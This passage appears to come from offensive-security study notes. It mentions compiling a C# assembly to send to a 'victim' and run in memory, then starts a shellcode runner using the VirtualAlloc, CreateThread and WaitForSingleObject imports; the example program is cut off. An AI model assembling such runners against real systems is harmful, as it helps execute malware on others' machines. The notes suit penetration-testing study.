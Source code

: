```c#
  

        // Start the process

        Process.Start(psi);

    }

  

    public void RunProcess(string path)

    {

        Process.Start(path);

    }

}
```

- When calling Win32 APIs from PowerShell (in the previous module), we demonstrated the straightforward _Add-Type_ method and the more complicated reflection technique. However, the complexity of reflection was well worth it as we avoided writing C# source code and compiled assembly files temporarily to disk during execution. Luckily, when dealing with C#, we can compile the assembly before sending it to the victim and execute it in memory, which will avoid this problem.

## Shellcode Runner in C\#

- A signaled state indicates a resource is available for a process or thread to use it. A not-signaled state indicates the resource is in use.
- import Win32 APIs to execute shellcode in memory
```c#
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, 
    uint flProtect);

[DllImport("kernel32.dll")]
static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, 
    IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("kernel32.dll")]
static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```

#### Example code 64-bit

- set CPU arch to x64
```c#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
```